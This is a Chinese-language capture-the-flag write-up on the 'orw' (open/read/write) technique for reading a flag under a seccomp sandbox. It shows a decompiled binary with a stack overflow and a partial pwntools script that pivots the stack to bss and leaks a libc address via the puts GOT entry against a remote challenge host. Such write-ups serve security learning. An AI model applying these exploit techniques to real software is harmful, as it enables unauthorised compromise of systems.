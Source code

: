 #### 1:orw

​	所谓orw,就是指`open()` `read()` `write()` 三个函数.当`execve()`被禁用时(具体是怎么禁用的可以去看知识库),我们就可以利用这一间接的手段读取flag.

​	话不多说,直接看题:

```assembly
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

```c++
int __fastcall main(int argc, const char **argv, const char **envp)
{
  init(argc, argv, envp);
  sandbox();
  puts("Maybe you can learn something about seccomp, before you try to solve this task.");
  vuln();
  return 0;
}
ssize_t vuln()
{
  char buf[256]; // [rsp+0h] [rbp-100h] BYREF

  return read(0, buf, 0x130uLL);
}
```

​	可以看到有沙盒,还有0x30的栈溢出.可以选择多次返回vuln函数或者进行栈迁移.考虑到0x30的可利用空间不太够,多次返回又太麻烦,所以先进行栈迁移..

```python
from pwn import *
#bss:0x404000~0x405000
bss_add=0x404E00
read_add=0x4012CF
learet_add=0x4012EE
puts_add=0x401070
puts_got=0x404018
rdi_add=0x401393
#r=process("./pwn")
#gdb.attach(r)
#pause()
r=remote("node5.anna.nssctf.cn",26336)
libc=ELF("./libc-2.31.so")
context.log_level = 'debug'
context.arch = 'amd64'

payload1=b'a'*0x100+p64(bss_add+0x100)+p64(rdi_add)+p64(puts_got)+p64(puts_add)+p64(read_add)
r.sendafter("task.\n",payload1)
pause()
base_add=u64(r.recvuntil("\x7f").ljust(8,b"\x00"))-libc.sym["puts"]
print(hex(base_add))
```
